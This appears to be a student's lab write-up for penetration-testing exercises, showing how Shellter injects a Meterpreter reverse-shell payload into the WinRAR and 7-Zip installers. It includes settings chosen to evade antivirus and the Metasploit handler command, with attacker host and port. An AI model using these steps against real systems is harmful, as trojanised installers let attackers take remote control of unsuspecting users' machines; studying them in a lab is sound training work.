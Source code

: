 ### 17.3.3.4 Exercises
#### 1. Inject a meterpreter reverse shell payload in the WinRAR executable.

- Downloaded WinRar 32-bit executable, installed Shellter & ran it in Automatic Mode
  ![image-20200718212528276](.17.3.3.4.assets/image-20200718212528276.png)
  - Chose Options
    - Stealth Mode: On
    - Listed Payload: [1] Meterpreter_Reverse_TCP
    - LHOST: 192.168.119.216
    - LPORT: 8000
  - Successfully injected payload
    ![image-20200718203642168](.17.3.3.4.assets/image-20200718203642168.png)

#### 2. Transfer the binary to your Windows client and ensure that it is not being detected by the antivirus.

- Transferred via netcat
  ![image-20200718205505042](.17.3.3.4.assets/image-20200718205505042.png)
- The AV results wouldn't stay up when I tried to scan the file through the context menu, so here's a scan of the desktop folder:
  ![image-20200718205932061](.17.3.3.4.assets/image-20200718205932061.png)

#### 3. Run the WinRAR installer and migrate your meterpreter shell to prevent a disconnect.

- Meterpreter handler setup:
  
```bash
  sfconsole -x "use exploit/multi/handler; set RHOST 192.168.216.10; set PAYLOAD w
  indows/meterpreter/reverse_tcp; set LHOST 192.168.119.216; set LPORT 8000"
```

  ![image-20200718210449504](.17.3.3.4.assets/image-20200718210449504.png)

- Running WinRAR
  I had to give it a few seconds on the initial screen or the meterpreter session didn't have time to migrate.

  ![image-20200718210529545](.17.3.3.4.assets/image-20200718210529545.png)

- Look at this beautiful prompt:
  ![image-20200718210715755](.17.3.3.4.assets/image-20200718210715755.png)

#### 4. Attempt to find different executables and inject malicious code into them using Shellter.

- Chose 7zip (https://www.7-zip.org/a/7z1900.exe)

- Used same parameters as with WinRAR above & the payload was injected successfully:
  ![image-20200718211306257](.17.3.3.4.assets/image-20200718211306257.png)

- Transferred to Windows
![image-20200718213225274](.17.3.3.4.assets/image-20200718213225274.png)
  
- Setup meterpreter handler

  ```bash
  sfconsole -x "use exploit/multi/handler; set RHOST 192.168.216.10; set PAYLOAD w
  indows/meterpreter/reverse_tcp; set LHOST 192.168.119.216; set LPORT 8000"
  ```
  
  ![image-20200718213331258](.17.3.3.4.assets/image-20200718213331258.png)
  
- Ran it to get a tasty Meterpreter shell

  Note: Stealth mode didn't seem to work, as the 7zip process aborted shortly after the shell kicked off.
  
  ![image-20200718213500320](.17.3.3.4.assets/image-20200718213500320.png)
  